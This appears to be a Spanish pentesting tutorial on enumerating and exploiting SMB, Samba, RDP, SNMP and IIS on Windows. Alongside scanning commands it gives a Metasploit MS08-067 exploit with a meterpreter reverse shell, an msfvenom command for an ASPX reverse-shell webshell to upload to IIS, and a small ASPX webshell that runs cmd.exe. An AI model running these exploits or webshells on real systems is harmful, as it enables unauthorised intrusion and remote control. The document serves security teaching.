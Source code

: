 
# 🧾 Enumeración y Explotación del Protocolo SMB, SAMBA, SNMP, IIS y RDP

Este módulo explora los servicios más comunes en sistemas Windows y cómo enumerarlos o explotarlos. Abarcamos SMB/SAMBA, RDP, SNMP e IIS, todos ellos vectores habituales en auditorías de red interna.

---

## 🔍 Enumeración y Explotación Básica del Protocolo SMB (Puerto 445)

### Herramientas:

```bash
nmap -p 445 --script smb-enum-shares,smb-enum-users 192.168.1.10
```

```bash
smbclient -L //192.168.1.10/ -N
```

---

## 💣 Enumeración y Explotación Básica del Protocolo SMB con Metasploit

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

---

## 👥 Enumeración de Usuarios SAMBA y uso de RPCCLIENT

```bash
rpcclient -U "" 192.168.1.10
> enumdomusers
```

También puedes extraer información de grupos, políticas, controladores y más.

---

## 🖥️ Protocolo RDP en Windows y Enumeración Básica del Sistema

### Verificar si el puerto está abierto:
```bash
nmap -p 3389 192.168.1.10
```

### Conectarse desde Kali:
```bash
rdesktop 192.168.1.10
```

```bash
xfreerdp /u:usuario /p:contraseña /v:192.168.1.10
```

---

## 🛰️ Enumeración y Explotación del Protocolo SNMP

```bash
snmpwalk -v 2c -c public 192.168.1.10
```

SNMP puede revelar nombres de usuarios, servicios, software instalado y más.

---

## 🌐 Webshell ASPX en Servidor Microsoft IIS

Crear payload con `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f aspx > shell.aspx
```

Sube el archivo a un servidor IIS mal configurado.

---

## 🌐 Webshell ASPX en IIS – OPCIÓN 2

Otra forma más simple usando un script `.aspx`:

```aspx
<%@ Page Language="C#" %>
<% Response.Write(System.Diagnostics.Process.Start("cmd.exe", "/c whoami")); %>
```

---

## 🛠️ Enumeración de HotFixes en Windows

Con acceso remoto:

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

---

📌 Recomendaciones:

- Usa `enum4linux`, `smbclient`, `rpcclient` y `snmpwalk` como base.
- Nunca ignores los servicios abiertos como RDP o SNMP.
- Presta atención a los permisos de subida en IIS o recursos compartidos.

---

📚 Recursos:

- https://book.hacktricks.xyz/network-services-pentesting
- https://github.com/SecureAuthCorp/impacket
- man rpcclient, man snmpwalk, man smbclient

---

💡 “La enumeración es el arte de preguntar sin ser detectado.”
